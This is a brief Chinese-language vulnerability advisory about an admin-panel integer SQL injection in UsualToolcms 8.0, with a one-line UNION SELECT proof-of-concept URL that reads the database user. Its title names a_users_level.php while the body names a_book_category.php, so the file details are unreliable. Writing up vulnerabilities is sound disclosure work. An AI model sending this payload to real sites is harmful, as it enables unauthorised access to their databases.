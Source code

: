 UsualToolcms 8.0 a\_users\_level.php 后台int型注入
==================================================

一、漏洞简介
------------

后台a\_book\_category.php int型注入

二、漏洞影响
------------

UsualToolcms 8.0

三、复现过程
------------

该php文件下另外一个触发点：

![2.png](/Users/aresx/Documents/VulWiki/.resource/UsualToolcms8.0a_users_level.php后台int型注入/media/rId24.png)

### poc

    http://www.0-sec.org/cmsadmin/a_book_category.php?t=mon&id=-1%20union%20select%201,user(),3%23

![2.png](/Users/aresx/Documents/VulWiki/.resource/UsualToolcms8.0a_users_level.php后台int型注入/media/rId26.png)

参考链接
--------

> https://xz.aliyun.com/t/8100

